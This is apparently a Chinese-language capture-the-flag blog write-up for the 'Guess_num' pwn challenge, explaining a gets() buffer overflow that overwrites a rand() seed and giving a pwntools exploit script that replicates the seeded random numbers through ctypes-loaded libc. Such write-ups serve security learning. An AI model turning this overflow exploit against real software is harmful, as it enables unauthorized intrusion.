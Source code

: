 ```yaml
---
layout: post
title: Guess_num
category: pwn
tags: [pwn]
---
```

## Guess_num

题目不难，但是学到了个新姿势 **cdll.LoadLibrar** ，可以用它来加载dll或者libc。

### ida分析

![img](/assets/images/2019-7-2-guess_num/guess_num_1.png)

名字v10和seed相差32(0x30-0x10)，而gets又没有限制，故可以将seed覆盖。

### Exp
```python
from pwn import*
from ctypes import*  
 
#p = remote('','')
p = process('./guess_num') 
elf = ELF('./guess_num')
 
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
 
payload = 'A'*32  
payload += p64(1)   #覆盖种子为1
p.recvuntil('name:')
p.sendline(payload)  
 
libc.srand(1)  #本地设置种子为一

for i in range(10):
        num = str(libc.rand()%6+1)
        p.recvuntil('number:')
        p.sendline(num)
 
p.interactive()
```